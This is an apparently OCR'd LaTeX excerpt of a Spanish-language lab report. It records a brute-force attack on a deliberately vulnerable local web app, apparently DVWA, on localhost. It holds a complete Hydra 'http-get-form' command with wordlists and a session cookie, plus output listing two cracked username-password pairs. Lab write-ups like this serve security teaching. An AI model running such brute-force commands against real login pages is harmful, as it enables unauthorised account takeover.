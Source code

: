 \documentclass[letter,12pt]{article}
\begin{document}
Para realizar el ataque se ejecutó la imagen oficial de Hydra en Docker y se configuraron los parámetros clave del módulo `http-get-form`:

	extbf{Comando ejecutado}
\begin{verbatim}
$ sudo docker run --rm --network="host" -v "$(pwd)":/data vanhauser/hydra \
    -L /data/usuarios_light.txt -P /data/contrasenas_light.txt -s 8889 \
    localhost http-get-form \
        '/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: PHPSESSID=knd082p12k28do4ttsn47hfd35; security=low:S=Welcome to the password protected area' \
    -o /data/hydra_light.txt
\end{verbatim}

	extbf{Resultado relevante}
\begin{verbatim}
[8889][http-get-form] ... login: admin   password: password
[8889][http-get-form] ... login: gordonb password: abc123
1 of 1 target successfully completed, 2 valid passwords found
\end{verbatim}

Los pares válidos obtenidos fueron:
\begin{itemize}
        \item Usuario \texttt{admin} con la contraseña \texttt{password}.
        \item Usuario \texttt{gordonb} con la contraseña \texttt{abc123}.
\end{itemize}
\end{document}
